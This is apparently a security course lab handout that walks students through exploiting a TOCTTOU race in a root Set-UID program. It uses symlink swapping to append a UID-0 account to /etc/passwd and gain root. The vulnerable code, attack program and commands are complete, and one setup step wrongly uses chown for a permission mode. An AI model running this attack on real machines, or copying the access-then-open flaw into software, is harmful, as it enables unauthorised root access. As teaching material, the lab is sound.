

# Lab 4: Race Condition Vulnerability

* First read this page then start working through the lab with the GitHub classroom link below. 
* The files that you need to complete this lab are also found in the GitHub repository.
* Put your answers in the `README.md` file in the GitHub repository.
* Github Classroom Link: [https://classroom.github.com/a/auoUWPM5](https://classroom.github.com/a/auoUWPM5)

### Objective

Learn about how to take advantage of a race condition in a vulnerable program to gain root access to a Linux machine with the goal of identifying and preventing such vulnerabilities.

### Race Condition Vulnerability

There is a specific type of race condition found in programs. This race occurs when checking for a _condition_ before using a _resource_. The security vulnerability that occurs as a result is called __Time-Of-Check-To-Time-Of-Use__ (TOCTTOU). In this lab we will focus on this type of software vulnerability. 

Consider the following program with a TOCTTOUR race condition vulnerability.

__vulnerable.cpp__
```c++
#include <iostream>
#include <fstream>
#include <string>
#include <unistd.h>
using namespace std;

int main(int argc, char* argv[]) 
{
    // If the argument count is not 2, print the usage message.
    if (argc != 2) 
    {
        cerr << "Usage: " << argv[0] << " <filename>" << endl;
        exit(1);
    }

    // The filename passed as a command line argument.
    const char* filename = argv[1]; 

    // The text to append to the file entered by the user.
    string textToAppend;
    getline(cin, textToAppend);

    // First check if we can access the filename. (Time-Of-Check)
    // Note: The access function checks if the **real** UID 
    //       has access to write to the file.
    if(!access(filename, W_OK))  
    {
        ofstream file;
        // Open the file for append (Time-Of-Use)
        // Note: The open function will check if the **effective** UID
        //       has access to write to the file. 
        file.open(filename, ofstream::app); 
        file << "\n" << textToAppend;

        // Close the file.
        file.close();
    }
    else
    {
        cout << "No permissions to append to file" << endl;
    }

    return 0;
}
```


The `access()` function (__Time-Of-Check__) will check the _real user ID_ and the `open()` function (__Time-Of-Use__) will check the _effective user ID_.

The program above is a __root-owned__ `Set-UID` program. So when the program is run by a normal user, the program's _effective user ID_ is __root__, while the _real user ID_ is __not root__, but remains the normal user.  



#### Compile and test the vulnerable program

1. Use the `g++` compiler to compile and build the executable program.
    ```bash
    $ g++ vulnerable.cpp -o vulnerable
    ```
2. Change the owner and permissions of the vulnerable executable file. The owner of the file will be the root user, and the permissions will be read, write, and execute as the root user. 
    ```bash
    $ sudo chown root vulnerable
    $ sudo chown 4755 vulnerable
    ```
3. Test the program on a simple file. The program will open a file and add the contents of another file piped to it.
    ```bash
    $ echo "Hello World!" > file1.txt
    # cat file1.txt
    $ ./vulnerable file2.txt < file1.txt
    $ cat file2.txt
    ```

#### Create an password input text file for use in the attack

1. Generate a password. Use the `mkpasswd` command to generate a new password.
    ```bash
    $ mkpasswd
    Password: <Type a new password here>
    ```
2. Save the password that you generated. We will use this later for the `password_input.txt` file.

3. Create a new file called `password_input.txt`. In this new file enter the following. Except replace `yournetid_root` with your `netid` followed by `_root`. And replace the string `hashed_password` with the password you created in step 2 above.

    ```bash
    $ nano password_input.txt 
    ```
* add the following (but modify as directed above):
    ```
    yournetid_root:hashed_password:0:0::/root:/bin/zsh
    ```
4. Notice that this line looks suspiciously like the root user entry in the `/etc/passwd` file. It has a UID of 0, and a GUID of 0, which is the user id and group id of the root user. A user with this id will have __root privileges__ on the system. The goal of this lab is to trick the vulnerable program into inserting this string into the `/etc/passwd` file.
5. Remind yourself what the `/etc/passwd` file looks like and what each item between the `:` means.
    ```bash
    $ cat /etc/passwd
    ```

#### The target process shell script

We need a shell script that will continuously call the vulnerable program until the new entry has been added to the /etc/passwd file. The script will check the last modified timestamp of the file and will stop running the while loop when the last modified timestamp has changed. 

__target_process.sh__
```bash
#!/bin/bash

# Do a long list on the file to check the last modified date.
CHECK_FILE="ls -l /etc/passwd"

# Store the result of the check in a variable called old.
old=$($CHECK_FILE)

# Store the result of the check in a variable called old.
new=$($CHECK_FILE)

# Check to see if the /etc/passwd file was modified.
# If it was not modified continue to run the while loop.
while [ "$old" == "$new" ]
do
    # Run the vulnerable program.
    ./vulnerable /tmp/yournetid.txt < password_input.txt

    # Re-check to see if the password file was modified.
    new=$($CHECK_FILE)
done

# It worked!!!
echo "The password file has changed. Stopping..."
```

1. Edit a bash shell script that will continuously call the vulnerable program in a while loop.
    ```bash
    $ nano target_process.sh
    ```

2. In the bash shell script `target_process.sh` change the name of the target file from `/tmp/yournetid.txt` to use your `netid`.

#### The attack process program

We need an attack process program to run in parallel to the target process. This attack program will rapidly switch the target file `/tmp/yournetid.txt` back and forth from a file that is writable by the user that can pass the `access()` function (__Time-Of-Check__) to a file the is writable only by root that can be modified by the `open()` function (__Time-Of-Use__). To do this we are going to use the Linux file system ability to create symbolic links between files. 

__attack_process.cpp__
```c++
#include <iostream>
#include <unistd.h>
using namespace std;

int main(int argc, char* argv[])
{
    // If the argument count is not 2, print the usage message.
    if (argc != 2) 
    {
        cerr << "Usage: " << argv[0] << " <filename>" << endl;
        exit(1);
    }

    // The filename passed as a command line argument.
    const char* filename = argv[1]; 

    while(true)
    {
        unlink(filename);
        // First link to a file that is writable by everyone.
        // This should allow us to pass the `access()` function 
        // during the (Time-Of-Check)
        symlink("/dev/null", filename);
        usleep(100);  // Sleep for 100 microseconds

        unlink(filename);
        // Next link to a file that is writable by root only.
        // The /etc/passwd file!
        // This should allow us to use the `open()` function 
        // during the (Time-Of-Use)
        symlink("/etc/passwd", filename);
        usleep(100);
    }

    return 0;
}
```

1. Use the `g++` compiler to compile and build the executable program.
    ```bash
    $ g++ attack_process.cpp -o attack_process
    ```

#### Launch the attack!

We now run the two programs created above. We first run the attack program, `attack_process`, in the background. Next we will start the target program, `target_process.sh`.

1. Start the attack process. Change the name of the attack file to `/tmp/yournetid.txt`. Use the `&` to run this process in the background.
    ```bash
        $ ./attack_process /tmp/yournetid.txt &
    ```
2. Validate that this is running correctly by list the file several times and notice that it is being linked and unlinked over and over again from `/dev/null` (writable) to `/etc/passwd` (not writable).
    ```bash
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
    ```
3. Run the target process.
    ```bash
    $ ./target_process.sh
    ```
4. Let it run until you see the message: "The password file has changed. Stopping...". Note: this may take a minute or two. If your program does stop after a few minutes, something may have gone wrong, see the section below for troubleshooting.
5. Verify that your entry was added to the `/etc/passwd` file.
    ```bash
    $ tail /etc/passwd
    ```
6. Now check to see if you can gain root privileges. Use the `su` (substitute user) to login to the newly created account. Change `yournetid_root` to use your `netid`. Enter the password that you created with the `mkpasswd` command above.
    ```bash
    su yournetid_root
    ```
7. Cat the file `/root/flag.txt` and add the contents to the `README.md` for this repository.
8. In the `README.md` explain in your own words how this attack works.

# Troubleshooting

If you didn't gain root access. You may need to restart this process.
1. Stop the `./target_process.sh` by typing `Ctrl-C`.
2. Stop the `./attack_process` by entering:
    ```bash
    $ jobs
    $ kill %jobnumber
    ```
3. Delete the `/tmp/yournetid.txt` file using the unlink command.
    ```bash
    $ unlink /tmp/yournetid.txt
    ```
4. Start the Launch the attack! section above again.
